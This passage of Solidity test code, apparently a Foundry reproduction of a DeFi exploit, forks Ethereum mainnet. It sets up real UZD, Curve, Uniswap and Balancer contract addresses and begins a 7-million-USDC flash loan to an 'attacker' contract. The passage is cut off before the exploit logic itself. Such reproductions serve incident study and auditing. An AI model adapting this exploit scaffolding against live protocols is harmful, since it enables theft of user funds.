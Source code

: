 ``` c
    function cacheAssetPrice() external;
}

interface ICurve {
    function exchange(
        uint256 i,
        uint256 j,
        uint256 dx,
        uint256 min_dy,
        bool use_eth,
        address receiver
    ) external returns (uint256);
}

contract ContractTest is Test {
    IUZD UZD = IUZD(0xb40b6608B2743E691C9B54DdBDEe7bf03cd79f1c);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    IERC20 USDC = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IERC20 crvUSD = IERC20(0xf939E0A03FB07F59A73314E73794Be0E57ac1b4E);
    IERC20 crvFRAX = IERC20(0x3175Df0976dFA876431C2E9eE6Bc45b65d3473CC);
    IERC20 USDT = IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    IERC20 SDT = IERC20(0x73968b9a57c6E53d41345FD57a6E6ae27d6CDB2F);
    IERC20 FRAX = IERC20(0x853d955aCEf822Db058eb8505911ED77F175b99e);
    ICurvePool FRAX_USDC_POOL = ICurvePool(0xDcEF968d416a41Cdac0ED8702fAC8128A64241A2);
    ICurvePool UZD_crvFRAX_POOL = ICurvePool(0x68934F60758243eafAf4D2cFeD27BF8010bede3a);
    ICurvePool crvUSD_USDC_POOL = ICurvePool(0x4DEcE678ceceb27446b35C672dC7d61F30bAD69E);
    ICurvePool crvUSD_UZD_POOL = ICurvePool(0xfC636D819d1a98433402eC9dEC633d864014F28C);
    ICurvePool Curve3POOL = ICurvePool(0xbEbc44782C7dB0a1A60Cb6fe97d0b483032FF1C7);
    ICurve ETH_SDT_POOL = ICurve(0xfB8814D005C5f32874391e888da6eB2fE7a27902);
    Uni_Router_V2 sushiRouter = Uni_Router_V2(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);
    Uni_Pair_V3 USDC_WETH_Pair = Uni_Pair_V3(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    Uni_Pair_V3 USDC_USDT_Pair = Uni_Pair_V3(0x3416cF6C708Da44DB2624D63ea0AAef7113527C6);
    IBalancerVault Balancer = IBalancerVault(0xBA12222222228d8Ba445958a75a0704d566BF2C8);
    address MIMCurveStakeDao = 0x9848EDb097Bee96459dFf7609fb582b80A8F8EfD;

    function setUp() public {
        vm.createSelectFork("mainnet", 17_908_949);
        vm.label(address(WETH), "WETH");
        vm.label(address(USDC), "USDC");
        vm.label(address(UZD), "UZD");
        vm.label(address(crvUSD), "crvUSD");
        vm.label(address(crvFRAX), "crvFRAX");
        vm.label(address(USDT), "USDT");
        vm.label(address(FRAX), "FRAX");
        vm.label(address(FRAX_USDC_POOL), "FRAX_USDC_POOL");
        vm.label(address(UZD_crvFRAX_POOL), "UZD_crvFRAX_POOL");
        vm.label(address(crvUSD_USDC_POOL), "crvUSD_USDC_POOL");
        vm.label(address(crvUSD_UZD_POOL), "crvUSD_UZD_POOL");
        vm.label(address(Curve3POOL), "Curve3POOL");
        vm.label(address(ETH_SDT_POOL), "ETH_SDT_POOL");
        vm.label(address(sushiRouter), "sushiRouter");
        vm.label(address(USDC_WETH_Pair), "USDC_WETH_Pair");
        vm.label(address(USDC_USDT_Pair), "USDC_USDT_Pair");
        vm.label(address(Balancer), "Balancer");
        vm.label(address(MIMCurveStakeDao), "MIMCurveStakeDao");
    }

    function testExploit() external {
        USDC_USDT_Pair.flash(address(this), 0, 7_000_000 * 1e6, abi.encode(7_000_000 * 1e6));

        emit log_named_decimal_uint(
            "Attacker WETH balance after exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );
```